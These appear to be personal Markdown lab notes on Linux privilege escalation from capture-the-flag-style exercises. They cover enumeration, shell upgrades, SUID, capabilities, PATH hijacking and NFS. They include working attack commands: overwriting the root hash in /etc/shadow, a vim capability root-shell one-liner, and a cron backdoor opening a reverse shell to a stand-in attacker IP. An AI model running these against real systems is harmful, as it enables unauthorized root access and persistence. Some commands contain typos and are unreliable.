
### Linux Privilege Escalation:

- __`sudo -l`__
- __`bin/bash -i` to get interactive shell__
- __`find / -name local.txt 2> /dev/null`__
- __`find -type d -name ".*" 2>/dev/null`__ __it will check hidden directories.__
- __`find / -not -type l -perm -o+w`__
- __`find /  -perm -u=s -type f 2>/dev/null`__
- [password cracking](password_cracking.md)
- [gtfobins](https://gtfobins.github.io/)


- __If you have permission to write `/etc/shadow` use the below commands__
  - __First you need to creat a one hash password using openssl__
    - __`openssl passwd -1 -salt abc password123` it will give you a hash `$1$abc$DSFILJKSD7393llsd.0s/` copy that__
    - __Edit the root password__
      - __`root:$1$abc$DSFILJKSD7393llsd.0s/:1772:0:99999:7:::`__


---------------------

### Upgrading Non-Interactive Shells

- __1. `cat /etc/shells` Check which shells are available in the target system__
- __2. Check for `python --version` to know python is installed or not__
  - __`python -c 'import pty; pty.spawn("/bin/bash")'`__
- __3. Check for `perl --help` installed or not__
  - __perl -e 'exec "bin/bash";'__
  - __perl: exec "/bin/bash";__
- __4. ruby: exec "bin/bash"__

- __Important__
  - __`env`__
  - __`export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`__
  - __`export TERM=xterm`__
  - __`export SHELL=bash`__

---------------------

### Find command which helps us in finding lot of stuff
```
Syntax: find <path> <options> <regex/name>
find . -name flag1.txt: find the file named “flag1.txt” in the current directory
find /home -name flag1.txt : find the file names “flag1.txt” in the /home directory
find / -type d -name config : find the directory named config under “/”
find / -type f -perm 0777` : find files with the 777 permissions (files readable, writable, and executable by all users)
find / -perm a=x : find executable files
find /home -user frank : find all files for user “frank” under “/home”
find / -mtime 10 : find files that were modified in the last 10 days
find / -atime 10 : find files that were accessed in the last 10 day
find / -cmin -60 : find files changed within the last hour (60 minutes)
find / -amin -60 : find files accesses within the last hour (60 minutes)
find / -size 50M : find files with a 50 MB size
find / -writable -type d 2>/dev/null : Find world-writeable folders
find / -perm -222 -type d 2>/dev/null : Find world-writeable folders
find / -perm -o w -type d 2>/dev/null : Find world-writeable folders
find / -perm -o x -type d 2>/dev/null : Find world-executable folders
We can also find programming languages and supported languages: find / -name perl*, find / -name python*, find / -name gcc* ...etc
find / -perm -u=s -type f 2>/dev/null : Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. This is important!
```
---------------------
### Enumeration: 
- Here we're going to see few commands which help us in enumerating target system
1. `hostname` - lists the name of the host
2. `uname -a` - prints kernel information
3. `cat /proc/version` - prints almost same infor of above command but more like gcc version....
4. `cat /etc/issue` - exact version on the OS
5. `ps` - lists the processes that are running
	* `ps -A` - all running processes
	* `ps axjf` - process tree
	* `ps aux` - displays processes with the users as well
6. `env` - shows all the environment variable
7. `sudo -l` - lists the commands that any user run as root without password
8. `groups` - lists the groups that current user is in
9. `id` - lists id of group,user
10. `cat /etc/passwd` - displays all the user
	- `cat /etc/passwd | cut -d ":" -f 1` - removes other stuff & only displays users
	- `ls /home` - displays users
11. `history` - previously ran commands which might have some sensitive info
12. `ifconfig` (or) `ip a` (or) `ip route` - network related information
13. **netstat** - network route
	* `netstat -a` - all listening and established connection
	* `netstat -at` - tcp connections
	* `netstat -au` - udp connections
	* `netstat -l` - listening connections
	* `netstat -s` - network statistics
	* `netstat -tp` - connections with service name and pid we can also add "l" for only listening ports
	* `netstat -i` - interface related information
	* `netstat -ano`
  - __`hostname`__
  - __`cat /etc/issue` or `cat/etc/*release`__
  - __`unmae -a` display hostname, kernal version__
  - __`env`__
  - __`lscpu`__
  - __`free -h`__
  - __`df -h` Display the storage divers__
  - __`df -ht ext4`__
  - __`lsblk | grep sd`__
  - __`dpkg -l` display the installed packages__
  - __`adduser -m royal /bin/bash`__
  - __`groups`__
  - __`groups bob`__
  - __`usermod -aG root bob`__
  - __`lastlog`__


----------------
### Automated Enumeration Scripts:

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LES](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)


----------------------
### SUID:(Set owner User ID)
- Its a kind of permission which gives specific permissions to run a file as root/owner
- This is really helpful to test.
find / -perm -u=s -type f 2>/dev/null` this will list all the suid files

------------------
### Capabilities:
- Capabilities are a bit similar to the SUID
- Capabilities provide a subset of root privileges to a process or a binary
- In order to look for them use `getcap -r / 2>/dev/null`
- Find the binary and check that on **GTFOBins** where there's a function for **Capabilities** and try out those any of them will work!
- In the example they provided a capability for `vim` and I used `./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` which is provided in the website itself and I got root!
- Remember that this process is hit or trail, if it doesnt work move on!

----------------
### Cron jobs:
- Crons jobs are used for scheduling! Here we can schedule any binary/process to run.
- Interesting part here is that by default they run with the owner privileges.
- Any one can view it!
- To view crontab, `cat /etc/crontab`
- `cat /etc/cron*`
  - `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/1234 0>&1'" > backdoor`
  - `crontab -i backdoor`
  - `crontab -l`
- `nc -nlvp 1234`

-------------------
### PATH:
- PATH is an environment variable
- In order to run any binary we need to specify the full path also, but if the address of file is specified in PATH variable then we can simpley run the binary by mentioning its name, like how we run some command line tools like ls, cd,....etc
- In order to view the content in PATH variable we need to run `echo $PATH` and the outpur will be something like this `usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`
- So whenever you use a tool without specifying path it searches in PATH and it runs!
- We can even add new path to PATH variable by `export PATH=<new-path>:$PATH`
- Also we need to find a writable paths so run `find / -writable 2>/dev/null`
- In the example I found a location where there's a script when I run its showing that "thm" not found, also it can be run as ROOT
- So I created a binary like `echo "/bin/bash" > thm` and gave executable rights then later added the path where **thm** located to PATH variable and now when I ran the binary then I got root!

-------------------
### NFS:(Network File Sharing)
- In order to view the configuration of NFS run `cat /etc/exports` or also we can type `showmount -e <target IP>` on our machine to find the **mountable shares**.
- In the output look for directories having `no_root_squash`, this means that the particular share is *writable*, hence we can do something to acquires root!
- Now after getting some directories where we can play around lets navigate to our attacker machine and create a sample directory anywhere like `/tmp`...etc
- Now we need to mount to the target machine by, 
`mount -o rw <targetIP>:<share-location> <directory path we created>`, here `rw` means read, write privileges.
- Now go to the folder we created and create a binary which gives us root on running.
- Then go back to the target machine and we can view the binary we created in the place we mounted, now run that and get root privileges!(do note that giving executable rights is not sufficient, we also need to give share rights by `chmod +s <binary>`)
- Then we're good to go!

 

